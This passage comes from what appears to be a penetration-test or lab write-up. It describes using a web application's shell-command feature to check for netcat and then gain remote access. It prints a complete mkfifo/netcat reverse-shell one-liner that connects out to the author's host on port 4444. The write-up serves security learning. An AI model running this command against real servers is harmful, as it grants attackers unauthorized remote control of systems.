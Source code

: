 - Execute Shell Command (safe mode is off): This allows us to run commands on the webserver itself. We will be able to use this to gain a shell on the webserver which will be shown below in the **System Access** section.

<br>

## System Access Phase

Using the shell command function I run `which nc` to see if the netcat tool is available on the system, and it is:

![](014.jpg)

I then use netcat to open up a reverse shell back to my home system by using the following command:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.50.142.47 4444 >/tmp/f`

![](015.jpg)

The connection was successful and we can see the username and hostname I was able to obtain a shell on:

![](016.jpg)

